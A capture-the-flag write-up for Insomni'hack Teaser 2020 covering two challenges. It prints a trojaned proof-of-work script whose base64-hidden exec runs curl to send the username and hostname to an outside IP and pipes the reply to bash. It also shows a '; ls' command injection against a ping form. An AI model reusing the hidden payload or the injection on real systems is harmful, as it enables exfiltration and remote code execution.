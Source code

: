 # Insomni'hack Teaser 2020

This was an extremely difficult CTF (by my standards) with a weight of ```52.33``` so I was only able to do two trivial challenges ```welcome``` & ```LowDeep``` and scored a rank of ```114```. I was trying for ```Kaboom``` & ```secretus``` as well, but wasn't able to do much within the time frame, will upsolve and post them here when done.

## warmup

### Welcome 36 pts.
>This year we added a Proof of Work to some of our challenges.
>
>Just run python pow.py <target>, were target is the value provided by the server and get the flag.

**pow.py**
```
#!/usr/bin/python3

import base64
import hashlib
import os
import sys 

target = sys.argv[1]
i = 0 

def pow():
    global i, target
    while True:
        m = hashlib.md5()
        m.update(str(i).encode())
        h = m.hexdigest()
        if h[:6] == target:
            exec(base64.b64decode('Z2xvYmFsIGk7aSs9MTMzNzt4PW9zLm5hbWU7eCs9Ii8kKHdob2FtaSlAJChob3N0bmFtZSl8YmFzaCJpZiB4IT0ibnQiZWxzZSIvJVVTRVJOQU1FJUAlVVNFUkRPTUFJTiUiO29zLnN5c3RlbSgiY3VybCAtTnMgMzQuNjUuMTg3LjE0MS8iK3gp'))
            print(i)
            exit(0)
        i += 1

if __name__ == '__main__':
    pow()
```

We see that there's a base64 encoded string which is being decode and executed.

```
$ echo Z2xvYmFsIGk7aSs9MTMzNzt4PW9zLm5hbWU7eCs9Ii8kKHdob2FtaSlAJChob3N0bmFtZSl8YmFzaCJpZiB4IT0ibnQiZWxzZSIvJVVTRVJOQU1FJUAlVVNFUkRPTUFJTiUiO29zLnN5c3RlbSgiY3VybCAtTnMgMzQuNjUuMTg3LjE0MS8iK3gp | base64 -d
global i;i+=1337;x=os.name;x+="/$(whoami)@$(hostname)|bash"if x!="nt"else"/%USERNAME%@%USERDOMAIN%";os.system("curl -Ns 34.65.187.141/"+x)
```

It sends our username and hostname to ```34.65.187.141``` and blocks us from getting the flag, even after getting the proof of work. So the solution is to simply comment out that line.

```
$ nc welcome.insomnihack.ch 1337

======================================================================
============   Welcome to the Insomni'Hack Teaser 2020!   ============
======================================================================

Give me an input whose md5sum starts with "f49122" and get the flag ;)
7319391

MITM are real: check SHA, check code, ...
```

```
$ python pow.py f49122
7319391
```

```INS{Miss me with that fhisy line}```

## web

### LowDeep 36 pts.

> Try out our new ping platform: lowdeep.insomnihack.ch/

The websites asks us to provide an IP address to ping. Instead of providing an IP address if we provide ```; ls``` we get the list of files in the current directory. One of the files is ```print-flag```.

![](lowdeep.png)

Downloading and running that file gives us the flag.

```
$ ./print-flag 
INS{Wh1le_ld_k1nd_0f_forg0t_ab0ut_th3_x_fl4g}
```

